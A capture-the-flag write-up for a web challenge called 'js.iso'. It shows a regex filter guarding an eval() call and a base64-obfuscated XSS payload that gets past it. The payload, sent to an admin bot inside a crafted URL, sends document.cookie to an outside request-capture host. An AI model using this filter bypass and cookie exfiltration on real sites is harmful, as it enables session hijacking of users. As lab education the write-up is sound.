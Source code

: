 # js.iso
### STAGE: LINUS TORVALDS

Here, checking the page source code, I noticed a "filter" that if bypassed allowed code injection within the page (using "eval"):

``` HTML
<script>
    var data = location.search.substr(1);

    data.split("/").join('');
    data = unescape(data);
    if (/([a-z]+\.|[a-z][A-Z]+\:|[a-z]+\=)/i.test(data)) { // >:(
        eval("result.innerHTML=''");
    } else {
        eval(`result.innerHTML='${data}'`); // we want to reach here!!!
    }
</script>
```
Our param "data" can be encoded to bypass the filter (if you want to know what it does, just search for RegExr), because we want to use `.` and `:`. So, our payload becomes: 
``` js
eval(atob(`ZmV0Y2goImh0dHBzOi8vZW42YXNidGhibnhhNi54LnBpcGVkcmVhbS5uZXQvIitkb2N1bWVudC5jb29raWUp`))
// this bypasses the filter
// encoded part = etch("https://en6asbthbnxa6.x.pipedream.net/"+document.cookie)
// "atob" converts base64 to string 
```

Sending to the admin this: `http://159.65.249.122:4111/?%27;eval(atob(%22ZmV0Y2goImh0dHBzOi8vZW42YXNidGhibnhhNi54LnBpcGVkcmVhbS5uZXQvIitkb2N1bWVudC5jb29raWUp%22))+%27` 
(`';eval(atob("ZmV0Y2goImh0dHBzOi8vZW42YXNidGhibnhhNi54LnBpcGVkcmVhbS5uZXQvIitkb2N1bWVudC5jb29raWUp"))+'`)
I got the flag :)

**Flag: `HACKAFLAG{Noth1n_h4rd_here}`**